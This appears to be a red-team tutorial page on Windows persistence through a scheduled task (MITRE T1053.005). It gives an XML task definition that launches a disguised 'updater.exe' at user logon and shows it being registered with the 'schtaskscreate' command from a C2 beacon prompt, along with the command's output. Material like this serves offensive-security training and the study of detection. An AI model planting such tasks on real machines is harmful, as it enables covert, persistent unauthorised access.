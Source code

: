 # Scheduled Task

The Windows Task Scheduler is able to perform routine tasks based on pre-defined triggers, including:

* At a specific time on a daily, weekly, or monthly schedule.
* When the computer goes idle.
* When the system starts.
* When a user logs on.
* When a system event occurs.

These are usually used to run software updates, and other clean-up tasks, etc.  An adversary can also add a scheduled task to execute payloads on a trigger of their choosing \[[T1053.005](https://attack.mitre.org/techniques/T1053/005/)].At their heart, tasks are defined in XML format.  Information about creating task definitions can be found [here](https://learn.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-schema-elements) and [here](https://learn.microsoft.com/en-us/windows/win32/taskschd/time-trigger-example--xml-).  The `schtaskscreate` BOF can create scheduled tasks from a given XML task definition.  Here's an example that will trigger when the user logs in:

```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <Triggers>
    <LogonTrigger>
      <Enabled>true</Enabled>
      <UserId>CONTOSO\pchilds</UserId>
    </LogonTrigger>
  </Triggers>
  <Principals>
    <Principal>
      <UserId>CONTOSO\pchilds</UserId>
    </Principal>
  </Principals>
  <Settings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
  </Settings>
  <Actions>
    <Exec>
      <Command>%LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe</Command>
    </Exec>
  </Actions>
</Task>
```

Run the command `schtaskscreate \Beacon XML CREATE` without any further arguments and a file dialogue box will appear for you to browse and select the XML file.

> Replace `\Beacon` with any name you like, but it must start with the `\`.

```batch
beacon> schtaskscreate \Beacon XML CREATE

createTask hostname: taskpath:\Beacon mode:2 force:0
Got user name and security descriptor
Valitdated task
Created task path
Registered task
SUCCESS.
```

> The task can be deleted using `schtasksdelete`.
